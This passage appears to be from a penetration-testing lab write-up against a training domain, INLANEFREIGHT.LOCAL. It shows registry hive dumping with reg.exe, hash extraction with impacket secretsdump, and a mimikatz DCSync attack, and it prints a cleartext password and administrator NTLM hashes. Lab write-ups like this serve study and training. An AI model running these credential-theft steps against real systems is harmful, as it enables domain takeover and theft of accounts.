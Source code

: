 >mapping the drive to kali through the RDP session allow to transfer any sensitive files stolen or tools to be uploaded to second target MS01.  

## SAM Attack - again on MS01  

>dump registry as user svc_sql on MS01 to obtain `tpetty` user hash or password.  

```
reg.exe save hklm\sam C:\tools\sam.save
reg.exe save hklm\system C:\tools\system.save
reg.exe save hklm\security C:\tools\security.save
```

>On kali extract hash secrets by dumping it.  

```
cd sam2

python3 /usr/share/doc/python3-impacket/examples/secretsdump.py -sam sam.save -security security.save -system system.save LOCAL

impacket-secretsdump -sam sam.save -system system.save -security security.save local
```

## Lateral movement  

>Credentials obtained for domain user `INLANEFREIGHT.LOCAL/tpetty` with password of `Sup3rS3cur3D0m@inU2eR` in clear text from SAM attack.  

>copy mimikatz to target MS01.  

>Run as command prompt as the user `tpetty` after discovering the user can perform `DCSYNC` attack.  


## DCSync Attack  

>Use mimikatz to perform dcsync attack.  

```
mimikatz.exe

lsadump::dcsync /domain:INLANEFREIGHT.LOCAL /user:INLANEFREIGHT\administrator
```  

>Output from dcsync for domain administrator account.  

```
Object RDN           : Administrator
** SAM ACCOUNT **
SAM Username         : Administrator
Account Type         : 30000000 ( USER_OBJECT )
User Account Control : 00000200 ( NORMAL_ACCOUNT )
Account expiration   :
Password last change : 4/11/2022 9:24:49 PM
Object Security ID   : S-1-5-21-2270287766-1317258649-2146029398-500
Object Relative ID   : 500
Credentials:
  Hash NTLM: 27dedb1dab4d8545c6e1c66fba077da0
    ntlm- 0: 27dedb1dab4d8545c6e1c66fba077da0
    ntlm- 1: bdaffbfe64f1fc646a3353be1c2c3c99
    lm  - 0: 757743529af55e110994f3c7e3710fc9
mimikatz #
```
